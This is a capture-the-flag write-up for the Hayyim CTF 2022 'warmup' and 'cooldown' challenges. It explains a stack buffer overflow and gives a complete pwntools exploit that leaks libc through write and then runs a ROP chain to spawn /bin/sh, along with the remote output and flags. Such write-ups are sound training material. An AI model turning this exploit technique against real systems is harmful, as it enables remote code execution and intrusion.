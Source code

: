 # Hayyim CTF 2022

## warmup

> What a tiny program!
>
> `nc 141.164.48.191 10001`
>
> [`Warmup_2eba252bc81213a4a232487f6d2ceeeb5dbbd5ace12641e4d8af82dc56104ff5.tgz`](Warmup_2eba252bc81213a4a232487f6d2ceeeb5dbbd5ace12641e4d8af82dc56104ff5.tgz)

## cooldown

> input size has decreased.
>
> `nc 141.164.48.191 10005`
>
> [`Cooldown_b6e153efcb71172289fc860c0bf9af90f63ec80b72f0644370a43d6a47aabff4.tgz`](Cooldown_b6e153efcb71172289fc860c0bf9af90f63ec80b72f0644370a43d6a47aabff4.tgz)

Tags: _pwn_ _x86-64_ _rop_ _bof_


## Summary

Warmup and cooldown are exactly the same problem only differing by size of input buffer.  I used the exact same code on both, so I'll only cover cooldown.

In short, use `write` to leak libc, then on second pass get a shell.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE will make it easy to call GOT functions and ROP, however Full RELRO will prevent modifying the GOT.  No canary, well, this _is_ a BOF/ROP challenge.


### Decompile with Ghidra

```c
void FUN_0040053d(void)
{
  long lVar1;
  undefined4 *puVar2;
  undefined4 auStack56 [12];
  
  puVar2 = auStack56;
  for (lVar1 = 0xc; lVar1 != 0; lVar1 = lVar1 + -1) {
    *puVar2 = 0;
    puVar2 = puVar2 + 1;
  }
  write(1,&DAT_0040057e,2);
  read(0,auStack56,0x60);
  return;
}
```

`read(0,auStack56,0x60)` will `read` up to `0x60` (96) bytes into a buffer only `56` (`auStack56`) bytes from the return address--there's your problem.  This gives us 40 bytes to craft an exploit--we only need 24.

`FUN_0040053d` (above) is our vulnerable function and is called by `entry`:

```c
void entry(void)
{
  FUN_004004f9();
  FUN_0040053d();
  exit(0);
}
```

From the `entry` disassembly you can see that after the call to `FUN_0040053d` we'll return to `0x4004f2`:

```assembly
undefined entry()

004004e0 48 83 ec 08     SUB        RSP,0x8
004004e4 31 c0           XOR        EAX,EAX
004004e6 e8 0e 00        CALL       FUN_004004f9
         00 00
004004eb 31 c0           XOR        EAX,EAX
004004ed e8 4b 00        CALL       FUN_0040053d
         00 00
004004f2 31 ff           XOR        EDI,EDI
004004f4 e8 d7 ff        CALL       <EXTERNAL>::exit
         ff ff
```

If you set a break point after `read(0,auStack56,0x60);`, you'll see that same return address on the stack and below that an address we're going to leak to get the location of libc:

```
0x00007fffffffe408│+0x0000: 0x0000000a68616c62 ("blah\n"?)	 ← $rbx, $rsp, $rsi
0x00007fffffffe410│+0x0008: 0x0000000000000000
0x00007fffffffe418│+0x0010: 0x0000000000000000
0x00007fffffffe420│+0x0018: 0x0000000000000000
0x00007fffffffe428│+0x0020: 0x0000000000000000
0x00007fffffffe430│+0x0028: 0x0000000000000000
0x00007fffffffe438│+0x0030: 0x0000000000000000
0x00007fffffffe440│+0x0038: 0x00000000004004f2  →   xor edi, edi
0x00007fffffffe448│+0x0040: 0x00007ffff7dd40ca  →  <_dl_start_user+50> lea rdx, [rip+0xfa6f]        # 0x7ffff7de3b40 <_dl_fini>
```

That location has a side benefit, it will jump back to `entry`:

```
gef➤  x/3i _dl_start_user+50
   0x7ffff7dd40ca <_dl_start_user+50>:	lea    rdx,[rip+0xfa6f]        # 0x7ffff7de3b40 <_dl_fini>
   0x7ffff7dd40d1 <_dl_start_user+57>:	mov    rsp,r13
   0x7ffff7dd40d4 <_dl_start_user+60>:	jmp    r12
   
gef➤  p $r12
$1 = 0x4004e0
```

So we get a free roundtrip, to leak this we simply need to overwrite the return address (and nothing else) with `binary.plt.write`.

`write` requires 3 arguments, FD (`rdi`), buffer address (`rsi`), and length (`rdx`).  All three are set by the previous `read` call.  Basically we're just going to write `0x60` bytes starting at the `read` buffer.  This will leak the location of `_dl_start_user+50` and we can use that to leak libc.

> _But `rdi` is `0` not `1`, isn't `0` `stdin`?_
> 
> Yes it is, but these are just conventions.  From your shell type `echo nothing >&0`, see, you got `nothing`, which is actually _something_.

With the leak and a second pass, we can just write out a simple ROP chain to get a shell.


## Exploit Development Environment

From the included `Dockerfile`:

```dockerfile
FROM ubuntu:18.04
```

I just used an Ubuntu 18.04 Docker image for exploit development.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./cooldown', checksec=False)

if args.REMOTE:
    p = remote('141.164.48.191', 10005)
    libc = ELF('./libc.so.6', checksec=False)
else:
    s = process('socat TCP-LISTEN:9999,reuseaddr,fork EXEC:./cooldown,pty,setsid,sigint,sane,rawer'.split())
    p = remote('127.0.0.1', 9999)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)
```

pwntools header.

> I'm using `socat` vs. `process(binary.path)` since pwntools `process` does not deal well with output being written to FD `0`.  I do not know of an easy way to fix this with pwntools so I just start up `socat` and then connect to that.

```python
payload  = b''
payload += 56 * b'A'
payload += p64(binary.plt.write)

p.sendafter(b'> ',payload)
p.recv(len(payload))
```

As mentioned in the Analysis section, we're just going to send `56` bytes to get to the return address and then overwrite that with a call to `write` from the PLT.

Then we just need to receive our payload, ignore it and move on.

```python
'''
stack:
0x00007fffffffe448│+0x0040: 0x00007ffff7dd40ca  →  <_dl_start_user+50> lea rdx, [rip+0xfa6f]        # 0x7ffff7de3b40 <_dl_fini>

vmmap:
0x00007ffff79e2000 0x00007ffff7bc9000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7bc9000 0x00007ffff7dc9000 0x00000000001e7000 --- /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dc9000 0x00007ffff7dcd000 0x00000000001e7000 r-- /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dcd000 0x00007ffff7dcf000 0x00000000001eb000 rw- /lib/x86_64-linux-gnu/libc-2.27.so
0x00007ffff7dcf000 0x00007ffff7dd3000 0x0000000000000000 rw-
0x00007ffff7dd3000 0x00007ffff7dfc000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.27.so
'''

libc.address = u64(p.recv(8)) - (0x00007ffff7dd40ca - 0x00007ffff79e2000)
log.info('libc.address: {x}'.format(x = hex(libc.address)))
```

The next 8 bytes will be the location of `_dl_start_user+50`.  The comment section above is my GDB stack and vmmap info.  We just need to compute the difference from the GDB stack leak to the base of [vmmap] libc and then subtract that constant from our remote leak (`u64(p.recv(8))`)

```python
pop_rdi = libc.search(asm('pop rdi; ret')).__next__()

payload  = b''
payload += 56 * b'A'
payload += p64(pop_rdi)
payload += p64(libc.search(b'/bin/sh').__next__())
payload += p64(libc.sym.system)

assert(len(payload) <= 0x60)

p.sendafter(b'> ',payload)
p.interactive()
```

Finally your everyday ROP chain given you have a libc leak.

Output (warmup):

```bash
# ./exploit.py REMOTE=1
[+] Opening connection to 141.164.48.191 on port 10001: Done
[*] libc.address: 0x7f7306204000
[*] Switching to interactive mode
$ cat flag
hsctf{0rigin4l_inpu7_1eng7h_w4s_0x60}
```

Output (cooldown):

```bash
# ./exploit.py REMOTE=1
[+] Opening connection to 141.164.48.191 on port 10005: Done
[*] libc.address: 0x7f94b44b0000
[*] Switching to interactive mode
$ cat flag
hsctf{ACB31ABDE038159C3D7949CFC01CE100}
```
